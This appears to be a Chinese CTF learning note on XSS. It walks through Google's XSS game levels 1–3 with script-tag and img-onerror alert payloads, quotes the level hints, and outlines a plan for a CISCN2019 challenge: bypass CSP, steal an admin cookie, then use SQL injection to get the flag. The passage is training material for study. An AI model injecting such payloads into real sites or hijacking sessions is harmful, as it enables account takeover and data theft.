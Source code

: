 # WEB

## XSS 跨站脚本攻击

题目地址：https://xss-game.appspot.com/level1

```bash
<script>alert(111)</script> 
<img src="http://www.cuc.edu.cn/_upload/site/00/05/5/logo.png">
<img src='aaaaaaa' onerror='alert("1")'/>
```

- level 1题目提示可插入 js 代码 alert 弹出消息框。

![](imgs/1-lev1.png)


- level 2:Persistence is key

> No matter where such user-controlled data comes from, it should be handled carefully.


---

```
&lt;script&gt;alert(111)&lt;/script&gt;

<img src='aaaaaaa' onerror='alert("11111")'/>



This level is sponsored by the letters <i>i</i>, <i>m</i> and 
         <i>g</i> and the attribute <code>onerror</code>.
```

![](imgs/1-lev2.png)

> 一不小心右键源码看见了hint
>

```html

  <div id="hints">
    <ol>
      <li style="display: none" data-hidden="true"><b>1.</b> 
    Note that the "welcome" post contains HTML, which indicates 
         that the template doesn't escape the contents of status messages.
  
    <li style="display: none" data-hidden="true"><b>2.</b> 
    Entering a &lt;script&gt; tag on this level will not work.
         Try an element with a JavaScript attribute instead.
  
    <li style="display: none" data-hidden="true"><b>3.</b> 
    This level is sponsored by the letters <i>i</i>, <i>m</i> and 
         <i>g</i> and the attribute <code>onerror</code>.
         
  
    </ol>
  </div>
```

- level 3

  寻找输入点

![](imgs/1-lev3-input.png)

![](imgs/1-lev3.png)

## CISCN2019华东北赛区web2

- todo

https://buuoj.cn/challenges

题目地址:web类 CISCN2019华东北赛区web2

思路：找到XSS注入点，绕过csp限制，获取管理员的cookie，使用管理员的

cookie登录，sql注入得到fla